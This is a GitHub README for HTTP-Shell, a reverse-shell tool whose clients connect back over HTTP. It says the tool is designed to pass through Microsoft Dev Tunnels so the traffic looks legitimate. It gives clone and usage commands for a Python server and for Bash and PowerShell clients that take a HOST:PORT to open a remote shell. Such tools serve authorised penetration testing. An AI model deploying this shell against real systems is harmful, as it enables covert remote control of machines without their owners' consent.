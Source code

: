<p align="center"><img width=550 alt="HTTP-Shell" src="https://github.com/JoelGMSec/HTTP-Shell/blob/main/HTTP-Shell.png"></p>

# HTTP-Shell
**HTTP-Shell** is Multiplatform Reverse Shell. This tool helps you to obtain a shell-like interface on a reverse connection over HTTP. Unlike other reverse shells, the main goal of the tool is to use it in conjunction with Microsoft Dev Tunnels, in order to get a connection as close as possible to a legitimate one.

This shell is not fully interactive, but displays any errors on screen (both Windows and Linux), is capable of uploading and downloading files, has command history, terminal cleanup (even with CTRL+L), automatic reconnection and movement between directories.


# Requirements
- Python 3 for Server
- Install requirements.txt
- Bash for Linux Client
- PowerShell 4.0 for Windows Client


# Download
It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:
```
git clone https://github.com/JoelGMSec/HTTP-Shell
```


# Usage
```
# Server

  _   _ _____ _____ ____      ____  _          _ _ 
 | | | |_   _|_   _|  _ \    / ___|| |__   ___| | |
 | |_| | | |   | | | |_) |___\___ \| "_ \ / _ \ | |
 |  _  | | |   | | |  __/_____|__) | | | |  __/ | |
 |_| |_| |_|   |_| |_|       |____/|_| |_|\___|_|_|
                                               
  ---------------- by @JoelGMSec -----------------

[!] Usage: HTTP-Server.py [PORT]


# Linux CLI

[!] Usage: ./HTTP-Client.sh -c [HOST:PORT] -s [SLEEP] (optional)


# Windows CLI

[!] Usage: .\HTTP-Client.ps1 -c [HOST:PORT] -s [SLEEP] (optional)

```

### The detailed guide of use can be found at the following link:

https://darkbyte.net/obteniendo-shells-con-microsoft-dev-tunnels


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
This tool has been created and designed from scratch by Joel Gámez Molina (@JoelGMSec).


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can find me on Twitter as [@JoelGMSec](https://twitter.com/JoelGMSec) and on my blog [darkbyte.net](https://darkbyte.net).


# Support
You can support my work buying me a coffee:

[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png">](https://www.buymeacoffee.com/joelgmsec)
